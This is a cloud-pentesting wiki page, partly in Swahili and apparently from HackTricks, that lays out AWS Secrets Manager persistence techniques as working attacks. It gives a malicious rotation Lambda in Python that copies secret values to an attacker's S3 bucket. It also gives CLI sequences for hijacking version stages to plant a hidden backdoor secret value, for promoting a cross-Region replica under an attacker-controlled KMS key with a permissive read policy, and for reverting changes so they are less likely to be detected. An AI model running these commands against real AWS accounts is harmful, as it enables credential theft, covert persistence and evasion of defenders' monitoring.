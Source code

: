 # AWS - Secrets Manager Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

For more info check:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Kupitia Sera za Rasilimali

Inawezekana **kutoa upatikanaji wa siri kwa akaunti za nje** kupitia sera za rasilimali. Angalia [**Secrets Manager Privesc page**](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) kwa maelezo zaidi. Kumbuka kwamba ili **kupata siri**, akaunti ya nje itahitaji pia **ufikiaji wa KMS key inayofanya encryption ya siri hiyo**.

### Kupitia Secrets Rotate Lambda

Ili **kupangilia upya siri** kiotomatiki, **Lambda** iliyosanifiwa inaitwa. Ikiwa mshambuliaji angeweza **kubadilisha** **code** angeweza moja kwa moja **exfiltrate the new secret** to himself.

This is how lambda code for such action could look like:
```python
import boto3

def rotate_secrets(event, context):
# Create a Secrets Manager client
client = boto3.client('secretsmanager')

# Retrieve the current secret value
secret_value = client.get_secret_value(SecretId='example_secret_id')['SecretString']

# Rotate the secret by updating its value
new_secret_value = rotate_secret(secret_value)
client.update_secret(SecretId='example_secret_id', SecretString=new_secret_value)

def rotate_secret(secret_value):
# Perform the rotation logic here, e.g., generate a new password

# Example: Generate a new password
new_secret_value = generate_password()

return new_secret_value

def generate_password():
# Example: Generate a random password using the secrets module
import secrets
import string
password = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(16))
return password
```
### Badilisha Lambda ya rotation kuwa kazi inayodhibitiwa na mshambuliaji kupitia RotateSecret

Tumia vibaya `secretsmanager:RotateSecret` ili kurebind secret kwa rotation Lambda inayodhibitiwa na mshambuliaji na kusababisha rotation ya papo hapo. Kazi hasidi inafanya exfiltrates versions za secret (AWSCURRENT/AWSPENDING) wakati wa hatua za rotation (createSecret/setSecret/testSecret/finishSecret) hadi attacker sink (mfano, S3 au external HTTP).

- Mahitaji
- Idhini: `secretsmanager:RotateSecret`, `lambda:InvokeFunction` on the attacker Lambda, `iam:CreateRole/PassRole/PutRolePolicy` (or AttachRolePolicy) to provision the Lambda execution role with `secretsmanager:GetSecretValue` and preferably `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage` (so rotation keeps working), KMS `kms:Decrypt` for the secret KMS key, and `s3:PutObject` (or outbound egress) for exfiltration.
- Secret id lengwa (`SecretId`) na rotation imewezeshwa au uwezo wa kuwezesha rotation.

- Athari
- Mshambuliaji anapata thamani(zi) za secret bila kubadilisha code halali ya rotation. Mabadiliko ni tu kwenye configuration ya rotation ili kuelekeza kwa Lambda ya mshambuliaji. Ikiwa hayataonekana, rotations zilizopangwa za baadaye zitaendelea kuitisha kazi ya mshambuliaji pia.

- Hatua za shambulio (CLI)
1) Andaa attacker sink na Lambda role
- Unda S3 bucket kwa exfiltration na execution role inayotegemewa na Lambda yenye idhini za kusoma secret na kuandika S3 (na logs/KMS kama inahitajika).
2) Deploy Lambda ya mshambuliaji ambayo kila hatua ya rotation inachukua thamani(zi) za secret na kuziandika S3. Logic ya rotation minimal inaweza tu kunakili AWSCURRENT hadi AWSPENDING na kuipromote katika finishSecret ili huduma iendelee kufanya kazi.
3) Rebind rotation na uitishe
- `aws secretsmanager rotate-secret --secret-id <SECRET_ARN> --rotation-lambda-arn <ATTACKER_LAMBDA_ARN> --rotation-rules '{"ScheduleExpression":"rate(10 days)"}' --rotate-immediately`
4) Thibitisha exfiltration kwa kuorodhesha prefix ya S3 kwa secret hiyo na kukagua artifacts za JSON.
5) (Hiari) Rudisha Lambda ya rotation ya asili ili kupunguza kugunduliwa.

- Mfano wa attacker Lambda (Python) exfiltrating to S3
- Environment: `EXFIL_BUCKET=<bucket>`
- Handler: `lambda_function.lambda_handler`
```python
import boto3, json, os, base64, datetime
s3 = boto3.client('s3')
sm = boto3.client('secretsmanager')
BUCKET = os.environ['EXFIL_BUCKET']

def write_s3(key, data):
s3.put_object(Bucket=BUCKET, Key=key, Body=json.dumps(data).encode('utf-8'), ContentType='application/json')

def lambda_handler(event, context):
sid, token, step = event['SecretId'], event['ClientRequestToken'], event['Step']
# Exfil both stages best-effort
def getv(**kw):
try:
r = sm.get_secret_value(**kw)
return {'SecretString': r.get('SecretString')} if 'SecretString' in r else {'SecretBinary': base64.b64encode(r['SecretBinary']).decode('utf-8')}
except Exception as e:
return {'error': str(e)}
current = getv(SecretId=sid, VersionStage='AWSCURRENT')
pending = getv(SecretId=sid, VersionStage='AWSPENDING')
key = f"{sid.replace(':','_')}/{step}/{token}.json"
write_s3(key, {'time': datetime.datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ'), 'step': step, 'secret_id': sid, 'token': token, 'current': current, 'pending': pending})
# Minimal rotation (optional): copy current->pending and promote in finishSecret
# (Implement createSecret/finishSecret using PutSecretValue and UpdateSecretVersionStage)
```
### Version Stage Hijacking for Covert Persistence (custom stage + fast AWSCURRENT flip)

Abuse Secrets Manager version staging labels ili kuweka toleo la secret linalodhibitiwa na mshambuliaji na kulificha chini ya custom stage (kwa mfano, `ATTACKER`) wakati production inaendelea kutumia asili ya `AWSCURRENT`. Wakati wowote, hamisha `AWSCURRENT` kwa toleo la mshambuliaji ili kuchafua workloads zinazotegemea, kisha urejeshe ili kupunguza uwezekano wa kugunduliwa. Hii inatoa stealthy backdoor persistence na udhibiti wa haraka wa time-of-use bila kubadilisha jina la secret au rotation config.

- Mahitaji
- Ruhusa: `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage`, `secretsmanager:DescribeSecret`, `secretsmanager:ListSecretVersionIds`, `secretsmanager:GetSecretValue` (kwa uhakikisho)
- ID ya secret lengwa katika Region.

- Athari
- Hifadhi toleo lililofichwa, linalodhibitiwa na mshambuliaji la secret na kwa atomiki ibadilishe `AWSCURRENT` kwa hilo unapoagizwa, ukiaathiri yeyote anayetatua jina la secret sawa. Kubadili na urejesho wa haraka hupunguza nafasi ya kugunduliwa huku ikiruhusu kuathiriwa kwa time-of-use.

- Hatua za mashambulizi (CLI)
- Maandalizi
- `export SECRET_ID=<target secret id or arn>`

<details>
<summary>Amri za CLI</summary>
```bash
# 1) Capture current production version id (the one holding AWSCURRENT)
CUR=$(aws secretsmanager list-secret-version-ids \
--secret-id "$SECRET_ID" \
--query "Versions[?contains(VersionStages, AWSCURRENT)].VersionId | [0]" \
--output text)

# 2) Create attacker version with known value (this will temporarily move AWSCURRENT)
BACKTOK=$(uuidgen)
aws secretsmanager put-secret-value \
--secret-id "$SECRET_ID" \
--client-request-token "$BACKTOK" \
--secret-string {backdoor:hunter2!}

# 3) Restore production and hide attacker version under custom stage
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"

aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage ATTACKER \
--move-to-version-id "$BACKTOK"

# Verify stages
aws secretsmanager list-secret-version-ids --secret-id "$SECRET_ID" --include-deprecated

# 4) On-demand flip to the attacker’s value and revert quickly
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$BACKTOK" \
--remove-from-version-id "$CUR"

# Validate served plaintext now equals the attacker payload
aws secretsmanager get-secret-value --secret-id "$SECRET_ID" --query SecretString --output text

# Revert to reduce detection
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"
```
</details>

- Vidokezo
- When you supply `--client-request-token`, Secrets Manager uses it as the `VersionId`. Adding a new version without explicitly setting `--version-stages` moves `AWSCURRENT` to the new version by default, and marks the previous one as `AWSPREVIOUS`.


### Cross-Region Replica Promotion Backdoor (replicate ➜ promote ➜ permissive policy)

Abuse Secrets Manager multi-Region replication to create a replica of a target secret into a less-monitored Region, encrypt it with an attacker-controlled KMS key in that Region, then promote the replica to a standalone secret and attach a permissive resource policy granting attacker read access. The original secret in the primary Region remains unchanged, yielding durable, stealthy access to the secret value via the promoted replica while bypassing KMS/policy constraints on the primary.

- Mahitaji
- Ruhusa: `secretsmanager:ReplicateSecretToRegions`, `secretsmanager:StopReplicationToReplica`, `secretsmanager:PutResourcePolicy`, `secretsmanager:GetResourcePolicy`, `secretsmanager:DescribeSecret`.
- Katika Region ya nakala: `kms:CreateKey`, `kms:CreateAlias`, `kms:CreateGrant` (or `kms:PutKeyPolicy`) ili kumruhusu principal wa mshambulizi `kms:Decrypt`.
- Principal wa mshambulizi (mtumiaji/cheo) ili kupokea haki ya kusoma kwenye siri iliyopromote.

- Athari
- Njia ya kudumu ya kupata thamani ya siri kuvuka-Region kupitia nakala huru iliyo chini ya KMS CMK inayodhibitiwa na mshambulizi na resource policy yenye ruhusa. Siri ya msingi katika Region ya asili haijabadilishwa.

- Attack (CLI)
- Vars
```bash
export R1=<primary-region>   # e.g., us-east-1
export R2=<replica-region>   # e.g., us-west-2
export SECRET_ID=<secret name or ARN in R1>
export ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
export ATTACKER_ARN=<arn:aws:iam::<ACCOUNT_ID>:user/<attacker> or role>
```
1) Unda KMS key inayodhibitiwa na mshambuliaji katika replica Region
```bash
cat > /tmp/kms_policy.json <<'JSON'
{"Version":"2012-10-17","Statement":[
{"Sid":"EnableRoot","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::${ACCOUNT_ID}:root"},"Action":"kms:*","Resource":"*"}
]}
JSON
KMS_KEY_ID=$(aws kms create-key --region "$R2" --description "Attacker CMK for replica" --policy file:///tmp/kms_policy.json \
--query KeyMetadata.KeyId --output text)
aws kms create-alias --region "$R2" --alias-name alias/attacker-sm --target-key-id "$KMS_KEY_ID"
# Allow attacker to decrypt via a grant (or use PutKeyPolicy to add the principal)
aws kms create-grant --region "$R2" --key-id "$KMS_KEY_ID" --grantee-principal "$ATTACKER_ARN" --operations Decrypt DescribeKey
```
2) Nakili siri kwa R2 kwa kutumia attacker KMS key
```bash
aws secretsmanager replicate-secret-to-regions --region "$R1" --secret-id "$SECRET_ID" \
--add-replica-regions Region=$R2,KmsKeyId=alias/attacker-sm --force-overwrite-replica-secret
aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" | jq '.ReplicationStatus'
```
3) Inua nakala kuwa pekee katika R2
```bash
# Use the secret name (same across Regions)
NAME=$(aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" --query Name --output text)
aws secretsmanager stop-replication-to-replica --region "$R2" --secret-id "$NAME"
aws secretsmanager describe-secret --region "$R2" --secret-id "$NAME"
```
4) Ambatisha permissive resource policy kwenye standalone secret katika R2
```bash
cat > /tmp/replica_policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AttackerRead","Effect":"Allow","Principal":{"AWS":"${ATTACKER_ARN}"},"Action":["secretsmanager:GetSecretValue"],"Resource":"*"}]}
JSON
aws secretsmanager put-resource-policy --region "$R2" --secret-id "$NAME" --resource-policy file:///tmp/replica_policy.json --block-public-policy
aws secretsmanager get-resource-policy --region "$R2" --secret-id "$NAME"
```
5) Soma secret kutoka kwa attacker principal katika R2
```bash
# Configure attacker credentials and read
aws secretsmanager get-secret-value --region "$R2" --secret-id "$NAME" --query SecretString --output text
```
{{#include ../../../../banners/hacktricks-training.md}}
